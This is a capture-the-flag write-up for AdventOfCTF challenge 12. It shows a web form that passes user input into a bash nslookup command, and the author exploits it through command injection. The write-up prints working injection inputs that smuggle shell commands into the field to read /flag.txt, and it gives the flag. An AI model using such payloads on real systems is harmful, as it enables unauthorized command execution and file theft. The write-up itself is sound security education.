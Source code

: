 +++
author = "Maik de Kruif"
title = "Challenge 12 - AdventOfCTF"
date = 2020-12-14T15:55:21+01:00
description = "A writeup for challenge 12 of AdventOfCTF."
cover = "img/adventofctf/af3424cd215a6459494ae07eab33cb35.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1200

## Description

To ensure a good Christmas we implemented some diagnostic tools. This one checks that the time to a destination is within an acceptable range. The flag is in /flag.txt.

Visit <https://12.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website we're greeted with an input field and a check button. Let's enter some text in the input and press the check button. Initially, nothing happens but after a few seconds we get a result: `1607956922.306628 Destination check was OK`. As the page didn't reload there is probably some javascript in play. Indeed there is, when opening the source, we find a script tag with the following javascript function:

```js
function send() {
  let place = $("#place")[0].value;
  if (place.length > 0) {
    $.post("/", { place: place }, function (data) {
      $("#result")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
  return false;
}
```

If we analyze this function a bit we find that it executes a `POST` request to `/` and puts the result in an HTML element with this selector: `'#result'`.

Let's try some more inputs. Just plain text doesn't seem to change the result much besides the number before "Destination check". If we, however, enter a quote (`"`), we get a different result back:

```text
Something happened: /bin/bash: -c: line 0: unexpected EOF while looking for matching `"'
/bin/bash: -c: line 1: syntax error: unexpected end of file
```

And inputting a backtick (`) returns this error:

```text
Something happened: BusyBox v1.31.1 () multi-call binary.

Usage: nslookup [-type=QUERY_TYPE] [-debug] HOST [DNS_SERVER]

Query DNS about HOST

QUERY_TYPE: soa,ns,a,aaaa,cname,mx,txt,ptr,any
```

### nslookup

I spend quite some time trying to find a way to get out of this command but I could not get anything to work so I took a break.

### Redirection

When I came back, I tried inputting a redirect character (`>`) and it gave a result!

## Getting some output

After entering a redirection character (`>`) we get the following result:

```text
Something happened: /bin/bash: -c: line 0: syntax error near unexpected token `newline'
/bin/bash: -c: line 0: `./check &gt;'
```

This means we can redirect output and thus get arbitrary code execution by putting a sub-command as the output like so:

```bash
> $(ls)
```

But entering this gave an error:

```text
Something happened: /bin/bash: $(ls): ambiguous redirect
```

This means that, while it does work, it does not work directly as the output isn't valid. If we, however, put a sub-command inside a sub-command (`> $($(ls))`), the inner output will be printed:

```text
Something happened: /bin/bash: app.py: command not found
/bin/bash: $($(ls)): ambiguous redirect
```

As we can see, there seems to be an `app.py` file but we don't care about it now. Let's try to cat the flag from the location specified in the challenge description (`/flag.txt`) by entering the following input: `>$($(cat /flag.txt))`. This return the following result:

```text
Something happened: /bin/bash: Congratulations,: command not found
/bin/bash: $($(cat /flag.txt)): ambiguous redirect
```

As we can see, it did read the file. Sadly, however, it only returned the first line...

At this point, I didn't really know what to do but just as I was about to take another break, [@credmp](https://twitter.com/credmp) posted a hint on Twitter. It said the following: "Hint: all error messages are printed on stderr.".

### Redirecting the output

After reading this tweet, I tried the following input: `>$(cat /flag.txt>/dev/stderr)` and it immediately worked! I felt pretty stupid for not having thought about that 😐.

## Solution

So redirecting the output to `stderr` worked and we got the flag: `NOVI{we_are_halfway_to_christmas!}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#12-13).
